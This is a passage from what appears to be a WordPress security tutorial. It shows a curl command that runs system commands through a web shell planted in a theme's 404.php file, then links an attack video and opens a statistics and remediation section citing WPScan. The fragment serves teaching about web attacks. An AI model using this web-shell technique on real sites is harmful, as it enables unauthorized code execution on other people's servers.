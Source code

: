 ![Desktop View](/assets/blogimages/HackingWebApps/CMS/wordpress/wordpressRCE.png)

After saving the edited contents, the attacker can execute code:

`curl http://127.0.0.1/wp-content/themes/twentynineteen/404.php?0=id`<br><br>
Example attack:
<video width="100%" preload="auto" muted controls>
    <source src="/assets/blogimages/HackingWebApps/CMS/wordpress/wprceattack.mp4" type="video/mp4">
</video>


## Statistical Data and Remediation

### Statistics
Based on [**WPScan**](https://wpscan.com/statistics/) statistics there is still a significant amount of vulnerabilities found every month. Most of them come from plugins.